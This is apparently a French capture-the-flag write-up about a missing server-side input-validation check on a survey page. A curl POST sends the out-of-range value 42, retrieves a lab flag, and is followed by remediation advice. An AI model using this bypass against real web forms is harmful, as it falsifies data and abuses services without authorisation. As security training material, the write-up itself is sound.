

# Write up User Input Validation

# Exploration

En naviguant à travers l’application web, nous sommes tombés sur une page faisant office d’enquête, permettant de voter pour des personnes:



Il est possible de voter pour la personne que l’on veut, et de lui donner un grade entre 1 et 10.

# Exploitation

A première vue, il n’y avait rien d’anormal sur cette page. Nous avons alors essayé de modifier la valeur attendue, ici entre 1 et 10, par 42. Il suffit d’effectuer la requête directement au backend sans passer par le frontend.

Nous pouvons utiliser cette requête pour l’effectuer:

```jsx
curl -X POST 'http://192.168.64.36/?page=survey' -d 'sujet=2&valeur=42' | grep flag
[... TRUNCATED DATA ...]
The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa
[... TRUNCATED DATA ...]
```

Nous avons ainsi pu récupérer le flag.

# Remédiation

Nous sommes ici à un problème de validation de l’entrée utilisateur. L’application web effectue un contrôle côté frontend, mais la valeur envoyée par le client n’est pas validée du côté backend. Dans la situation présente, cela peut permettre de fausser totalement l’enquête en cours.

Pour pallier à cette vulnérabilité, il est important de mettre en place une validation de l’input de l’utilisateur côté serveur. La valeur attendue est déjà connue, elle doit correspondre à un nombre entre 1 et 10.

Ainsi, tout entrée différente devrait être rejetée.